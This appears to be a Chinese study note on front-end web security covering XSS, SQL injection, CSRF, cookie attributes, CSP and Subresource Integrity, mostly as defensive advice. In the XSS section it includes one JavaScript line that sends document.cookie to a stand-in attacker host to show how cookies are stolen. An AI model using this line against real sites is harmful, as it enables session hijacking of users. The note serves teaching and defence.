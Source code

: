 # 前端安全性

腾讯大牛亲授漏洞防御(第五章 cookies)

## xss 处理(Cross Site Scripting) 跨站脚本攻击

### scripting 能干吗？

1. 获取页面数据
2. 获取 cookies
3. 劫持前端逻辑
4. 发送请求
5. 偷取网站任意数据
6. 偷取用户资料
7. 偷取用户密码和登录态
8. 欺骗用户

### xss 攻击分类

1. 反射型(url 参数直接注入)
2. 存储型(存储到 DB 后读取时注入)

### xss 攻击注入点

浏览器只能拦截前两种(只适合反射性 css)

1. HTML 节点内容
2. HTML 属性
3. Javascript 代码
4. 富文本

本质是 HTML 注入,用户输入的数据被当成 Html 代码执行了
对<>单引号和双引号进行转义;对空格进行转义

1. cookie 使用 HttpOnly 限制: 是的客户端的 js 代码不能读取到 cookie 值,但是不能防止从 HTTP header 里得到 cookie
2. 输出文本 HTML 转义:对网页上显示的文本内容使用 HtmlEncode 转义。js 函数：OWASP ESAPI 中的 encodeCharacter。其它的如 xmlencode、jsonencode 等转义函数。
3. 检查输入的 URL
4. 对传入 js 函数的文本类型参数值进行 javascript 转义

会话劫持和 XSS：
常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS (en-US) 攻击。
content-security-policy
CSP 的实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。它的实现和执行全部由浏览器完成，开发者只需提供配置。

```js
// HttpOnly 类型的 Cookie 用于阻止了JavaScript 对其的访问性而能在一定程度上缓解此类攻击。
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

## SQL 注入

预防办法：数据与代码分离,即不用字符串拼凑 SQL 语句

## XST 处理

XST(跨站追踪)攻击，关闭 Web 服务器的 TRACE 方法

## CSRF 攻击的防御

Cross Site Request Forgy(跨站请求伪造)

- CSRF 攻击的危害

1. 利用用户登录态
2. 用户不知情
3. 盗取用户资金转账消费

- csrf 防御

1. same-site:strict 可以禁止第三方 cookie

- 特征不访问 A 网站前端

1. 在前端页面加入验证信息
2. 验证码(图形验证码)
3. token

- 令牌同步模式(tokie)
  原理:令牌可以通过任何方式生成，只要确保随机性和唯一性.这样确保攻击者发送请求时候，由于没有该令牌而无法通过验证。
- 检查 Referer 字段
  因其完全依赖浏览器发送正确的 Referer 字段。虽然 http 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。
- 添加校验 token
  由于 CSRF 的本质在于攻击者欺骗用户去访问自己设置的地址;正常的访问时，客户端浏览器能够正确得到并传回这个伪随机数，而通过 CSRF 传来的欺骗性攻击中，攻击者无从事先得知这个伪随机数的值，服务端就会因为校验 token 的值为空或者错误，拒绝这个可疑请求。

## HTTP 头注入

## Cookie 安全

标记为 Secure 的 Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端
HttpOnly 属性可防止通过 javascript 访问 cookie 值
SameSite 属性 允许服务器要求某个 cookie 在跨站请求时不会被发送,从而可以阻止跨站请求伪造攻击(CSRF)
Cookie 的 SameSite 属性用来限制第三方 Cookie，从而减少安全风险

1. SameSite=None:浏览器会在同站请求、跨站请求下继续发送 cookies,不区分大小写
2. SameSite=Strict:浏览器将只在访问相同站点时发送 cookie。（在原有 Cookies 的限制条件上的加强，如上文 “Cookie 的作用域” 所述）; 这个规则过于严格，可能造成非常不好的用户体验。比如，当前网页有一个 GitHub 链接，用户点击跳转就不会带有 GitHub 的 Cookie，跳转过去总是未登陆状态。
3. SameSite=Lax:但只有当用户从外部站点导航到 URL 时才会发送。如 link 链接

```JS
Set-Cookie: key=value; SameSite=Strict;
Set-Cookie: sessionId=e8bb43229de9; Domain=foo.example.com
```

## 提高资源的安全性-SRI(Subresource Integrity) 与 CSP

1. 首先需要服务器开启内容安全策略即:Content-Security-Policy: require-sri-for script;
2. 加入 integrity 值

```js
<script
  type="text/javascript"
  src="app.bundle.js"
  integrity="sha256-WcONURDxHuPpCyTfyxv6ULC5IQS8W/TvkOfiluU2Y1w= sha512-XZBIDDYvednMCvIE+VxLhoh3GZ550KQEUuUG8EA/HNUKVOa9sl2YpyeIGVmi6NVu2VAAT+bReuzUszzugYNxKQ=="
  crossorigin="anonymous"
></script>;
crossorigin: "" | anonymous | (use-credentials) 请求头都会带上Origin 属性
// 使用use-credentials,这个就同时会在跨域请求中带上 cookie 和其他的一些认证信息. 需要服务端response Header 返回：Access-Control-Allow-Credentials
```

- SRI
  SRI 是用来校验资源是否完整的安全方案。通过为页面引用的资源指定信息摘要，当资源被劫持篡改内容时，浏览器校验信息摘要不匹配，将会拒绝代码执行并抛出加载异常，保证加载资源的完整性。
  启用 SRI:使用 SRI 只需要给页面标签添加 integrity 属性，属性值为签名算法（sha256、sha384、sha512）和摘要签名内容组成，中间用 - 分隔。
  可以通过 webpack webpack-subresource-integrity 插件实现 integrity 实现添加过程。
  开启 SRI，浏览器会对相关资源进行 CORS 检查。至此，当资源内容被劫持篡改时，浏览器校验签名不匹配将使得异常资源不被执行，并触发加载失败。从而进入到资源加载失败的监控流程中，最终可以通过切换 CDN 域名或主域名进行加载重试，直到加载上正确资源，避免资源被劫持篡改内容后注入广告或白屏等情况。
  HTTPS 可以有效应对流量劫持的问题，SRI 在资源完整性再上一道屏障，CSP 也进行了其他方面的补充。“三驾马车” 为页面资源安全 “保驾护航”。
